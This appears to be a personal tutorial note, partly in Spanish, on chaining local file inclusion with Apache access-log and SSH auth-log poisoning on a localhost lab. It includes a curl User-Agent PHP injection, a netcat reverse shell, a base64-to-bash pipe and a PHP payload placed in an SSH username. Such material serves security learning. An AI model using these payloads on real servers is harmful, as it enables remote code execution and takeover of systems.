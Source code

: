 Log poisoning or Log injection is **a technique that allows the attacker to tamper with the log file contents like inserting the malicious code to the server logs to execute commands remotely or to get a reverse shell**.

One common place were we find log information is on :


```
localhost/example.php?file=/var/log/apache2/access.log
```
NOTE: GENERALLY THIS FILE DO NOT HAVE READING PERMISSIONS.

```
kali>/var/log/apache2/access.log

::1 - - [29/Aug/2023:10:54:01 -0400] "GET /example.php?file=php://filter/convert.base64-encode/resource=example2.php HTTP/1.1" 200 272 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36"
::1 - - [29/Aug/2023:10:54:01 -0400] "GET /favicon.ico HTTP/1.1" 404 487 "http://localhost/example.php?file=php://filter/convert.base64-encode/resource=example2.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36"
::1 - - [29/Aug/2023:11:02:18 -0400] "GET /example.php?file=/var/log/apache2/access.log HTTP/1.1" 200 203 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36"

```




This file shows all the petitions that we did to the apache2 server or any other person did to the apache2 server.

The idea is, that we can take advantage from the USER AGENT.
```
Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
```


Why?

from curl we can define the user agent:

-s (silent petition)
-H (headers, we define headers)
```
curl -s -H "User-Agent: <?php system('whoami');?>" "http://localhost/example.php?file=/var/log/apache2/access.log"
```


And on the log , we can see something like this 
```
127.0.0.1 - - [29/Aug/2023:11:13:06 -0400] "GET /example.php?file=/var/log/apache2/access.log HTTP/1.1" 200 147 "-" "<?php system('whoami'); ?>"
```
Note; this is not relevant, maybe my machine isnt vulnerable to this but in some cases, the server responses the user, in this case the user is "www-data"

Another important place where we find the logs but, another different logs, SSH.

**/var/log/auth.log**

```
http://localhost/example.php?file=/var/log/auth.log
```

This registers the valid and invalid users.

So we can send us a interactive shell, first 
listening on the port 443
```
nc -nlvp 443
```
and on the other side, on the folder /var/www/html
```
nc -e /bin/bash 127.0.0.1 443
```

Another way coded on base 64

```
echo "nc -e /bin/bash 127.0.0.1 443" | base64; echo
```
copy the base64 and decode it and pipe it with bash

```
echo "vwefewJOIFEE9ij09Ji0ej" | base64 -d | bash

NOTA, NO ES BASE 64 ESO, ES UN FIRULETE NOMAS PARA PONER EJEMPLO
```

now he is going to define it like a "user" 

```
ssh '<?php system("echo vwefewJOIFEE9ij09Ji0ej | base64 -d | bash") ?>'@127.0.0.1
```

Is strange, the user do not exist, but he was able to get on the system as www-data. Because the server interpretes that php command. HE WAS ABLE TO GET BY SSH AS www-data


## This is a LOCAL FILE INCLUSION WITH LOG POISONING STRINGED##
